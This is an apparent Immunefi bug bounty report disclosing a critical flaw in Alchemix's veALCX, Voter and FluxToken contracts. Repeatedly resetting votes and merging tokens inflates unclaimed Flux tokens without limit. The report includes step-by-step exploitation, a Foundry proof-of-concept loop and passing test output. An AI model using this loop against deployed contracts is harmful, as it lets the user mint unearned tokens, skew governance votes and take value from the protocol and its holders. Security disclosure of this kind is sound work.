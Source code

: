
# Users can get unlimited amounts of Flux tokens

Submitted on Mon May 06 2024 15:36:36 GMT-0400 (Atlantic Standard Time) by @imsrybr0 for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #30825

Report type: Smart Contract

Report severity: Critical

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/FluxToken.sol

Impacts:
- Manipulation of governance voting result deviating from voted outcome and resulting in a direct change from intended effect of original results

## Description
## Brief/Intro
Users can get unlimited amounts of Flux tokens.

## Vulnerability Details
```solidity
// ...
contract VotingEscrow is IERC721, IERC721Metadata, IVotes, IVotingEscrow {
    // ...
    function merge(uint256 _from, uint256 _to) external {
        require(!voted[_from], "voting in progress for token");
        // ...
        IFluxToken(FLUX).mergeFlux(_from, _to);
        // ...
    }
    // ...
}
```

```solidity
// ...
contract FluxToken is ERC20("Flux", "FLUX"), IFluxToken {
    // ...
    function mergeFlux(uint256 _fromTokenId, uint256 _toTokenId) external {
        require(msg.sender == veALCX, "not veALCX");

        unclaimedFlux[_toTokenId] += unclaimedFlux[_fromTokenId];
        unclaimedFlux[_fromTokenId] = 0;
    }
    // ...
}
```

```solidity
// ...
contract Voter is IVoter {
    // ...
    function reset(uint256 _tokenId) public onlyNewEpoch(_tokenId) {
        if (msg.sender != admin) {
            require(IVotingEscrow(veALCX).isApprovedOrOwner(msg.sender, _tokenId), "not approved or owner");
        }

        lastVoted[_tokenId] = block.timestamp;
        _reset(_tokenId);
        IVotingEscrow(veALCX).abstain(_tokenId);
        IFluxToken(FLUX).accrueFlux(_tokenId);
    }
    // ...
}
```

* The `VotingEscrow@merge` function only checks if the token being merged voted `yes`. It also merges the unclaimed Flux earnings of the merge tokens.
* The `Voter@reset` function :
  * Doesn't check if the given token id has any votes to reset before doing so.
  * Votes `no` on the `VotingEscrow`
  * Accrues Flux earning for the given token id

Under those conditions, a user can :
1) Start by locking an amount of tokens in `VotingEscrow` and get `Token ID N` in return
2) Call `Voter@reset` for `Token ID N` to accrue Flux earning for that token.
3) Lock a dust amount of tokens in `VotingEscrow` and get `Token ID M` in return
4) Call `VotingEscrow@merge` to merge `Token ID N` into `Token ID M` which will add the first token unclaimed Flux earning to the second one.

Steps 2), 3) and 4) can be repeated as needed carrying over unclaimed Flux earnings from the previous token to the next one and accruing them again.

## Impact Details
* Artificially boost voting power for gauges voting. 
* Claim Flux ERC20 tokens to :
  * Sell them
  * Use them to ragequit for free

## References
* https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/VotingEscrow.sol#L618-L651
* https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/Voter.sol#L183-L192
* https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/FluxToken.sol#L180-L185

        
## Proof of concept
## Proof of Concept
```solidity
    function testMergeFlux() public {
        uint256 previousTokenId = createVeAlcx(admin, TOKEN_1, MAXTIME, true);
        console2.log("Starting Unclaimed Flux", flux.unclaimedFlux(previousTokenId));

        uint256 nextTokenId;

        vm.startPrank(admin);
        voter.reset(previousTokenId);

        console2.log("Unclaimed Flux after reset", flux.unclaimedFlux(previousTokenId));

        for (uint256 i; i < 10; i++) {
            nextTokenId = createVeAlcx(admin, 1, MAXTIME, true);

            veALCX.merge(previousTokenId, nextTokenId);

            voter.reset(nextTokenId);

            previousTokenId = nextTokenId;
        }

        console2.log("Unclaimed Flux after 10 iterations", flux.unclaimedFlux(nextTokenId));

        flux.claimFlux(nextTokenId, flux.unclaimedFlux(nextTokenId));

        console2.log("Flux ERC20 balance", flux.balanceOf(admin));
    }
```

## Results
```console
[⠒] Compiling...
Ran 1 test for src/test/VotingEscrow.t.sol:VotingEscrowTest
[PASS] testMergeFlux() (gas: 9703837)
Logs:
  Starting Unclaimed Flux 0
  Unclaimed Flux after reset 984526667926843455
  Unclaimed Flux after 10 iterations 10829793347195278005
  Flux ERC20 balance 10829793347195278005

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 32.92s (24.57s CPU time)

Ran 1 test suite in 34.78s (32.92s CPU time): 1 tests passed, 0 failed, 0 skipped (1 total tests)
```